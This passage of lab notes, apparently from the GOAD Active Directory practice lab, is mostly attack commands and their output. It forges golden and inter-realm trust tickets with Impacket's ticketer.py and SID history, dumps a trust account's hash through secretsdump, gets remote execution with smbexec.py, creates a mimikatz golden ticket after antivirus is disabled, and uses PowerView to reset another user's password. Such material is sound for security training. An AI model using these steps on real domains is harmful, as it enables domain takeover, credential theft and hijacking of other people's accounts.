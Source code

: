 Create the golden ticket for a fake user and use it
```
ticketer.py -nthash e58cf01ba6cc645da9f7ab1f28fc3934 \
-domain-sid S-1-5-21-2203133648-1386395927-1390703624 \
-domain essos.local \
-extra-sid S-1-5-21-1409754491-4246775990-3914137275-1132 \
dragon


export KRB5CCNAME=/workspace/trusts/external/dragon.ccache
smbexec.py -k -no-pass dragon@kingslanding.sevenkingdoms.local -debug

```

### Trust ticket with external forest 
```
secretsdump -just-dc-user 'SEVENKINGDOMS$' essos.local/daenerys.targaryen:'BurnThemAll!'@192.168.56.12
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:285b80ddc1ad529f27403804e75a9ab1:::
...


ticketer.py -nthash 285b80ddc1ad529f27403804e75a9ab1 \
 -domain-sid S-1-5-21-2203133648-1386395927-1390703624 \
 -domain essos.local \
 -extra-sid S-1-5-21-1409754491-4246775990-3914137275-1132 \
 -spn krbtgt/sevenkingdoms.local trustdragon


export KRB5CCNAME=/workspace/trusts/external/trustdragon.ccache
getST.py -k -no-pass -spn cifs/kingslanding.sevenkingdoms.local \
 sevenkingdoms.local/trustdragon@sevenkingdoms.local -debug


export KRB5CCNAME=/workspace/trusts/external/trustdragon@sevenkingdoms.local.ccache
smbexec.py -k -no-pass trustdragon@kingslanding.sevenkingdoms.local -debug
```

### Exploit acl with external trust golden ticket
- Connect as administrator on meereen, disable the antivrius to be able to use mimikatz and powerview
- Create the golden ticket with mimikatz matching the group kingsguard (RID 1130)

```
mimikatz # kerberos::golden /user:guard /domain:essos.local /sid:S-1-5-21-2203133648-1386395927-1390703624 /krbtgt:e58cf01ba6cc645da9f7ab1f28fc3934 /sids:S-1-5-21-1409754491-4246775990-3914137275-1130 /ptt
```

- And now use powerview to change stannis password
```
Import-Module .\powerview.ps1
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity stannis.baratheon -AccountPassword $SecPassword -Domain sevenkingdoms.local
```

